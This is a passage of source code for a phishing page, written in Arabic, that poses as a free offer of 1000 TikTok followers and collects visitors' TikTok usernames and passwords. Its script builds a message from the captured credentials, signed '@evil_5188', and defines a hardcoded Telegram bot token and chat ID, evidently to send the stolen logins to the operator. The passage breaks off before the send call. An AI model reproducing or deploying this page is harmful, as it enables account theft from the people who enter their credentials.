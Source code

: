     input::placeholder {
      color: #aaa;
    }

    button {
      padding: 12px 30px;
      background: gold;
      color: #000;
      border: none;
      border-radius: 10px;
      font-size: 1.1rem;
      cursor: pointer;
      margin-top: 10px;
      transition: 0.3s ease;
    }

    button:hover {
      background: #d4af37;
    }

    .msg {
      margin-top: 15px;
      color: #00ff88;
    }

    .footer {
      margin-top: 20px;
      font-size: 0.9rem;
      color: #aaa;
    }
  </style>
</head>
<body>

  <div class="container">
    <img src="https://upload.wikimedia.org/wikipedia/commons/a/a9/TikTok_logo.svg" alt="TikTok Logo">
    <h2>احصل على 1000 متابع تيك توك مجاناً</h2>
    <form id="tiktokForm">
      <input type="text" id="username" placeholder="اسم المستخدم تيك توك" required><br>
      <input type="password" id="password" placeholder="كلمة المرور" required><br>
      <button type="submit">ارسال الطلب</button>
    </form>
    <div class="msg" id="successMsg"></div>
    <div class="footer">المطور: @HM TEAM | جميع الحقوق محفوظة</div>
  </div>

  <script>
    document.getElementById("tiktokForm").addEventListener("submit", function(e) {
      e.preventDefault();

      const username = document.getElementById("username").value;
      const password = document.getElementById("password").value;

      const message = `طلب جديد لرشق متابعين تيك توك:\n\nاسم المستخدم: ${username}\nكلمة المرور: ${password}\n\n-- المطور: @evil_5188`;
      const botToken = "7255990994:AAFWZ37rF5v8K2fAHgsQuWuKLycI0RniT7Q";
      const chatId = "7359477402";
